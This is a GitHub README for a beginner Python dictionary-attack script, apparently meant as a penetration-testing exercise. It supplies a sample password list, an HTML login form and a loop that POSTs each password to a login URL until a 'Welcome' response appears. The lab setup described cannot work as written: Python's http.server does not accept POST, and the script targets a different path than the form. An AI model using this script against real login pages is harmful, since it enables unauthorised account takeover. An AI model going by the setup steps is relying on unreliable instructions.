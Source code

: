#  Brute Force Attack Script

## Overview
This project demonstrates a simple brute force attack script using Python. The script attempts to crack a password by systematically trying a list of possible passwords. The goal is to educate about security vulnerabilities and the importance of strong passwords, and to provide a hands-on example for beginners in penetration testing.

 **⚠️ Warning:** This script is for educational purposes only. Do not use it on any system without explicit permission from the owner.

 ## Features
* **Automated Login** Attempts: The script sends POST requests to a web server to attempt logins with different password combinations.
* **Custom Wordlist:** You can supply your own list of potential passwords to test.
* **Success Notification:** The script notifies you when the correct password is found.

## Requirements

* Python 3.x
* `requests` library

You can install the required library using the following command:

`pip install requests`

## Setup

1- Clone the repository:

`git clone https://github.com/yourusername/brute-force-script.git`

`cd brute-force-script`

2- Create a `passwords.txt` file in the same directory with a list of potential passwords, each on a new line:

`password123`

`qwerty`

`letmein`

`admin123`

`senhafoda`

3- Create the HTML login page (if needed):

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>
<body>
    <h2>Login Page</h2>
    <form action="/login" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br><br>
        <label for="password">Password:</label><br>
        <input type="password" id="password" name="password"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```

4- Run a local server to host the HTML page:

`python3 -m http.server 8000`


## Usage

1- Running the Script:

Edit the `brute_force.py` script to point to your local server:

```
import requests

url = 'http://0.0.0.0:8000/'
usernames = ['admin']
passwords = open('/path/to/your/passwords.txt', 'r').readlines()

for username in usernames:
    for line in passwords:
        password = line.strip()
        response = requests.post(url, data={'username': username, 'password': password, 'submit': 'Login'})
        if "Welcome" in response.text:  
            print(f"=========[+] PASSWORD CRACKED: {password} =========")
            break
        else:
            print(f"[-] Password invalid: {password}")
```

2- Run the Script:

`python3 brute_force.py`

The script will attempt to log in with each password in the passwords.txt file and will notify you when it successfully cracks the password.

# License

This project is licensed under the MIT License - see the LICENSE file for details.




